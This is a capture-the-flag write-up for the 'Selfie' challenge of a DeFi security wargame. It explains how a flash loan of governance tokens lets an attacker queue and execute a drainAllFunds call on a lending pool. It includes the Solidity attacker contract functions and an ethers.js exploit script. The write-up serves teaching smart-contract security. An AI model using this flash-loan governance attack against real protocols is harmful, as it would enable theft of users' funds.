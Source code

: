 # Selfie

## Challenge

A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

## Solution

We observe that in order to take the funds from the `SelfiePool.sol`, we may use the following function

```solidity
function drainAllFunds(address receiver) external onlyGovernance {
    uint256 amount = token.balanceOf(address(this));
    token.transfer(receiver, amount);

    emit FundsDrained(receiver, amount);
}
```

However this function has an onlyGovernance modifier, that is defined as follows

```solidity
modifier onlyGovernance() {
    require(msg.sender == address(governance), "Only governance can execute this action");
    _;
}
```

This means that only the `SimpleGovernance.sol` contract can invoke the function `drainAllFunds`. If we inspect the governance contract, we see that to execute functions in the name of the governance we need to have more than half of the governance tokens at the moment of queueing. If we only had DVT funds for just one instant to queue a malicious transaction... Oh wait, `SelfiePool` is offering no cost DVT flashloans! This is exactly what we need and the attacker contract, that we name [`AttackerSelfie.sol`](./AttackerSelfie.sol), will have three main functions

```solidity
function attack(uint256 _amount) public {
    pool.flashLoan(_amount);
}

function execute(uint256 _amount) public {
    governance.executeAction(actionId);
    token.transfer(msg.sender, _amount);
}

function receiveTokens(address _token, uint256 _amount) public {
    token.snapshot();
    bytes memory data = abi.encodeWithSignature('drainAllFunds(address)', address(this));
    actionId = governance.queueAction(address(pool), data, 0);
    token.transfer(address(pool), _amount);
}
```

We can first start the attack calling the `flashLoan` function from `SelfiePool`. This will call the `receiveTokens` function. At this moment we need to update the balances in order too be able to queue an action in the governance contract, that is why we make a snapshot of the DVT token. We define the data of the malicious transaction to perform and pass it to the `queueAction` function of `SimpleGovernance`. Once the action is queued, we do not need the DVT tokens anymore and we can pay back the flashloan. Since there is delay of 2 days between the queueing and the execution of the action, we create another function `execute` that will execute the queued action and transfer the drained funds back to the attacker account.

In order to implement this attack using ethers, we fill the file [`selfie.challenge.js`](../../test/selfie/selfie.challenge.js) with the following code

```javascript
it("Exploit", async function () {
  /** CODE YOUR EXPLOIT HERE */
  const Attacker = await ethers.getContractFactory("AttackerSelfie", attacker)
  attackerContract = await Attacker.deploy(
    this.token.address,
    this.governance.address,
    this.pool.address
  )
  await attackerContract.attack(TOKENS_IN_POOL)

  await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]) // 2 days

  await attackerContract.execute(TOKENS_IN_POOL)
})
```
